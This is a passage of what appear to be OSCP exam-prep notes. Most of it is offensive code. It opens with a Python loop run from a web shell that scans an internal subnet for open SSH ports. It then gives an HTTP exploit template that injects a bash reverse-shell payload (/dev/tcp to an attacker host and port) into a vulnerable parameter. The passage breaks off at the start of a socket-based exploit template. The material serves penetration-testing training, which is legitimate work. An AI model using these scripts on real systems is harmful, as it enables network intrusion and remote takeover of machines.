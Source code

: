 # Stage 3: Pivot to internal network
# From web shell, scan internal network
python3 -c "
import socket
for i in range(1,255):
    try:
        socket.create_connection(('192.168.1.'+str(i), 22), timeout=1)
        print(f'192.168.1.{i}:22 open')
    except:
        pass
"
```

## **9. Template Python Scripts for OSCP**

### **Template 1: Basic HTTP Exploit**
```
#!/usr/bin/env python3
import requests
import sys
import argparse

def exploit(target, lhost=None, lport=None):
    try:
        # Your exploit logic here
        if lhost and lport:
            payload = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
        else:
            payload = "id"
        
        data = {'vulnerable_param': payload}
        response = requests.post(f"http://{target}/vulnerable.php", data=data)
        
        if response.status_code == 200:
            print("[+] Exploit sent successfully")
            return True
    except Exception as e:
        print(f"[-] Error: {e}")
        return False

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", required=True)
    parser.add_argument("--lhost")
    parser.add_argument("--lport")
    args = parser.parse_args()
    
    exploit(args.target, args.lhost, args.lport)
```

### **Template 2: Socket-Based Exploit**
```
#!/usr/bin/env python3
import socket
import sys
import time
